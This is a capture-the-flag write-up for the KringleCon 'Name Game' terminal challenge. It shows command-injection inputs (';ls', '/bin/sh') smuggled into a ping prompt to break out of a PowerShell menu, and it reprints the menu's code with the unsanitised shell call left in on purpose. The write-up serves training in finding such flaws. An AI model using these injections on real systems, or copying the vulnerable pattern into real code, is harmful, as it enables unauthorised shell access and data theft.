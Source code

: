 The Name Game
=============

Minty Candycane provides hints for :doc:`Question 2 </objectives/question2>` after you help her with this Cranberry Pi terminal challenge.

Terminal Challenge
------------------

.. image:: /images/namegameMOTD.png


.. code-block:: none

 We just hired this new worker,
 Californian or New Yorker?
 Think he's making some new toy bag...
 My job is to make his name tag.

 Golly gee, I'm glad that you came,
 I recall naught but his last name!
 Use our system or your own plan,
 Find the first name of our guy "Chan!"
 
 -Bushy Evergreen

 To solve this challenge, determine the new worker's first name and submit to runtoanswer.




 ====================================================================
 =                                                                  =
 = S A N T A ' S  C A S T L E  E M P L O Y E E  O N B O A R D I N G =
 =                                                                  =
 ====================================================================




  Press  1 to start the onboard process.
  Press  2 to verify the system.
  Press  q to quit.


 Please make a selection: 

Our Solution
------------

Step 1: Perform a command injection to start a new shell
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

After selecting option 2 the following appeared [#f1]_ :

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: 

We entered ``127.0.0.1`` and got the following output:

.. code-block:: none

 PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.042 ms
 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.062 ms
 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.061 ms

 --- 127.0.0.1 ping statistics ---
 3 packets transmitted, 3 received, 0% packet loss, time 2042ms
 rtt min/avg/max/mdev = 0.042/0.055/0.062/0.009 ms
 onboard.db: SQLite 3.x database
 Press Enter to continue...:

This is the same as the output from the ``ping`` command, suggesting that we might be able to perform a command injection.

We observed that if you type ``;ls`` instead of an IP address, the output listed information about files just the same as using ``ls`` in a shell.

We tried starting a new shell by typing ``;/bin/bash``. This did not work and took as back into the employee onboarding application.

.. note::
 We later found out that the reason that we couldn't start a new bash shell using ``;/bin/bash`` was that one of the entries in the ``.bashrc`` file included ``/usr/bin/pwsh menu.ps1`` which starts the employee onboarding application.

We then tried starting a new shell by typing ``/bin/sh`` and successfully opened a shell.

Step 2: Retrieve Mr Chan's information from the employee onboarding application
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Running ``ls -a`` showed the following output::

 .  ..  .bash_logout  .bashrc  .cache  .local  menu.ps1  onboard.db  .profile  runtoanswer

Using the hints provided by Minty Candycane, and the output from the above ``ping`` command, we had a good idea that the ``onboard.db`` file was a SQLite database. We confirmed this by entering ``file onboard.db``.

.. note::
  We later found out that the employee onboarding application also uses the same ``/bin/bash -c "/usr/bin/file onboard.db"`` command during option 2. 

We then entered ``sqlite3 onboard.db .dump | grep 'Chan'`` to get:

.. code-block:: none

 INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067','4017533509','scottmchan90067@gmail.com');

Therefore Mr Chan's first name is Scott.

We then had to run the ``runtoanswer`` application to enter the correct inormation and complete the challenge.

Hints for the Terminal Challenge
--------------------------------

.. parsed-literal::
 **PowerShell Command Injection**
 From: Minty Candycane
 `PowerShell Call/& Operator <https://ss64.com/ps/call.html>`_

.. parsed-literal::
 **SQLite3 .dump'ing**
 From: Minty Candycane
 `SQLite3 Data Dump <https://www.digitalocean.com/community/questions/how-do-i-dump-an-sqlite-database>`_

Hints for KringleCon :doc:`Question 2 </objectives/question2>`
--------------------------------------------------------------

.. parsed-literal::
 **Finding Browsable Directories**
 From: Minty Candycane
 On a website, finding browsable directories is sometimes as simple as removing characters from the end of a URL.

.. parsed-literal::
 **Website Directory Browsing**
 From: Minty Candycane
 `Website Directory Browsing <https://portswigger.net/kb/issues/00600100_directory-listing>`_

Additional fun within the terminal
----------------------------------

An examination of the ``menu.ps1`` code showed the following:

.. code-block:: powershell 
 :emphasize-lines: 16,17,18

    do
    {
        Show-Menu
        $input = Read-Host 'Please make a selection'
        switch ($input)
        {
            '1' {
                cls
                Employee-Onboarding-Form
            } '2' {
                cls
                Write-Host "Validating data store for employee onboard information."
                $server = Read-Host 'Enter address of server'
                /bin/bash -c "/bin/ping -c 3 $server"
                /bin/bash -c "/usr/bin/file onboard.db"
            } '9' {
                /usr/bin/pwsh
                return
            } 'q' {
                return
            } default {
                Write-Host "Invalid entry."
            }
        }
        pause
    }
    until ($input -eq 'q')

Pressing the hidden option ``9`` opens a PowerShell shell.

.. rubric:: Extra Info
.. [#f1] After typing ``1`` we were taken to a registration page, which made us lose some time by trying to use that to solve the challenge. By typing ``q`` one cannot type anything more.
